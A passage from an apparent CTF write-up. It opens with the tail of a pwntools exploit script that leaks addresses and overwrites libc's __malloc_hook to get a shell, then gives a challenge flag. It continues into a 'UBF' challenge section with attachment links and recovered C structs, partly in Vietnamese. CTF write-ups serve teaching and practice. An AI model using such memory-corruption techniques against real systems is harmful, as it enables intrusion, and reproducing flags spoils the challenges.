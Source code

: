 ```python
dark = int(p.recv(12),16)+0x758
p.recvuntil(b"[vsyscall]\n")
log.success(f"{hex(e.address)}")
log.success(f"{hex(libc.address)}")
log.success(f"{hex(dark)}")

p.sendline(f"{hex(libc.sym.__GI___libc_write+71)} 1".ljust(63).encode())
sleep(1)
p.sendline(f"{hex(libc.sym.__GI___libc_write+31)} 1".ljust(63).encode())
sleep(1)
_ = f"{hex(libc.sym.__malloc_hook)} 100".encode()+b"\0" # write on malloc_hook -> rax > 0
p.sendline((_+(p32(1337).rjust(0x40-0x30-1-len(_),b"\x00"))))
p.interactive()
```
![image](https://github.com/robbert1978/robbert1978.github.io.old/assets/31349426/0851132a-0bf4-467b-b63c-f7afa471ba4c)

Flag: `CTF{y0ur_3xpl0itati0n_p0w3r_1s_0v3r_9000!!}`

## UBF

```
Please review and test this Unnecessary Binary Format (UBF)!
```

Attachment: [ubf.zip](https://github.com/robbert1978/robbert1978.github.io.old/files/11866744/ubf.zip)

Bài này hơi khó một chút ở công đoạn rev.

IDAdatabase của mình: [ubf.i64.zip](https://github.com/robbert1978/robbert1978.github.io.old/files/11866823/ubf.i64.zip)

Các struct mà mình recover được:

```c
struct __attribute__((packed)) __attribute__((aligned(1))) Handler
{
  struct Handler* next_hdl;
  char cur_option;
  int cur_count;
  int cur_next;
  int cur_size;
  char *handler_ptr;
};
struct __attribute__((packed)) __attribute__((aligned(1))) User
{
  int size;
  char option;
  short arr_count;
  short next;
  short data_arr[];
};
```
